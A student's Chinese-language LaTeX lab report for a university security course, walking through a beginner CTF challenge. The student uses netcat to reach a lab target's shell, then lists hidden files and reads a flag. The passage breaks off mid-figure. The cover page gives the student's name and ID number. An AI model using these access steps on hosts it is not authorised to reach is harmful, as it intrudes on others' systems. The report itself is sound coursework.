\documentclass[12pt,a4paper,UTF8]{ctexart}
\usepackage{geometry}
\geometry{left=3cm,right=3cm,top=2.5cm,bottom=2.5cm}
\usepackage{enumitem}
\usepackage{graphicx}
\usepackage{float}
\usepackage{hyperref}
\usepackage{listings}
\usepackage{xcolor}

% 代码高亮样式
\lstset{
    frame=single,
    backgroundcolor=\color{gray!5},
    basicstyle=\ttfamily\small,
    keywordstyle=\color{blue},
    stringstyle=\color{red},
    commentstyle=\color{green!60},
    breaklines=true,
    showspaces=false,
    showstringspaces=false
}

\begin{document}

\begin{center}
    \Huge \textbf{哈尔滨工业大学（深圳）} \\
    \vspace{1cm}
    \Huge \textbf{实验报告}
\end{center}

\vspace{1.5cm}

\begin{tabular}{ll}
    开课学期： & 2026年春季 \\
    课程名称： & 网络安全攻防竞赛实践 \\
    实验名称： & PWN 安全实验 \\
    实验时间： & 2026.5.8 \\
    学生班级： & 电气工程及其自动化1班 \\
    学生学号： & 2024312506 \\
    学生姓名： & 余泓彬 \\
\end{tabular}

\newpage

% --------------------- PWN 题目：例题-test_nc
\section{题目：例题-test\_nc}
\subsection{解题步骤}

\begin{enumerate}
    \item 打开题目页面，点击「创建实例」获取靶机地址与端口：\texttt{10.249.14.223:32845}。

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{1.1.png}
    \caption{题目页面与WSL2 Ubuntu 22.04 LTS启动界面}
\end{figure}

    \item 启动WSL2 Ubuntu 22.04终端，使用netcat工具连接靶机服务：
    \begin{lstlisting}[language=bash]
nc 10.249.14.223 32845
    \end{lstlisting}
    连接成功后，系统返回欢迎提示并进入交互式Shell环境。

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{1.2.png}
    \caption{WSL终端使用nc命令连接靶机并获取Shell}
\end{figure}

    \item 在Shell中执行\texttt{ls}命令罗列当前目录下文件与目录，查看现有资源：
    \begin{lstlisting}[language=bash]
ls
    \end{lstlisting}
    输出结果包含系统目录与普通文件，未直接出现flag相关文件。

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{1.3.png}
    \caption{执行ls命令查看当前目录文件}
\end{figure}

    \item 尝试读取目录下\texttt{gift}文件获取题目提示：
    \begin{lstlisting}[language=bash]
cat gift
    \end{lstlisting}
    文件输出提示语句，暗示Flag存放在Linux隐藏文件中。

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{1.4.png}
    \caption{读取gift文件获取隐藏文件提示}
\end{figure}

    \item 执行\texttt{ls -a}命令，显示当前目录所有文件（包含以\texttt{.}开头的Linux隐藏文件）：
    \begin{lstlisting}[language=bash]
ls -a
    \end{lstlisting}
    成功发现隐藏Flag文件\texttt{.flag}。

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{1.5.png}
    \caption{执行ls -a命令查看隐藏文件，发现.flag}
\end{figure}

    \item 使用\texttt{cat}命令读取隐藏文件，直接获取完整Flag：
    \begin{lstlisting}[language=bash]
cat .flag
    \end{lstlisting}

\begin{figure}[H]
    \centering
